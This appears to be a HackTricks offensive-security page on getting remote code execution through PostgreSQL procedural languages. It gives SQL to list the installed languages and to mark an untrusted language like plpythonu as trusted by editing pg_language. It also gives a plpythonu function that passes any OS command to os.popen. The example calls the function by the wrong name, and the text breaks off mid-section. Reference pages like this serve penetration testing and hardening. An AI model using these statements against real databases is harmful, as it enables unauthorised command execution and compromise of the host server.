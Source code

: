 # RCE with PostgreSQL Languages

<details><summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## PostgreSQL Languages

The PostgreSQL database you got access to may have different **scripting languages installed** that you could abuse to **execute arbitrary code**.

You can **get them running**:

```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```

Most of the scripting languages you can install in PostgreSQL have **2 flavours**: the **trusted** and the **untrusted**. The **untrusted** will have a name **ended in "u"** and will be the version that will allow you to **execute code** and use other interesting functions. This are languages that if installed are interesting:

* **plpythonu**
* **plpython3u**
* **plperlu**
* **pljavaU**
* **plrubyu**
* ... (any other programing language using an insecure version)

{% hint style="warning" %}
If you find that an interesting language is **installed** but **untrusted** by PostgreSQL (**`lanpltrusted`** is **`false`**) you can try to **trust it** with the following line so no restrictions will be applied by PostgreSQL:

```sql
UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
# To check your permissions over the table pg_language
SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
```
{% endhint %}

Note that it's possible to compile the secure versions as "unsecure". Check [**this**](https://www.robbyonrails.com/articles/2005/08/22/installing-untrusted-pl-ruby-for-postgresql.html) for example. So it's always worth trying if you can execute code even if you only find installed the **trusted** one.

## plpythonu/plpython3u

{% tabs %}
{% tab title="RCE" %}
```sql
CREATE OR REPLACE FUNCTION exec (cmd text)
RETURNS VARCHAR(65535) stable
AS $$
    import os
    return os.popen(cmd).read()
    #return os.execve(cmd, ["/usr/lib64/pgsql92/bin/psql"], {})
$$
LANGUAGE 'plpythonu';

SELECT cmd("ls"); #RCE with popen or execve
```
{% endtab %}
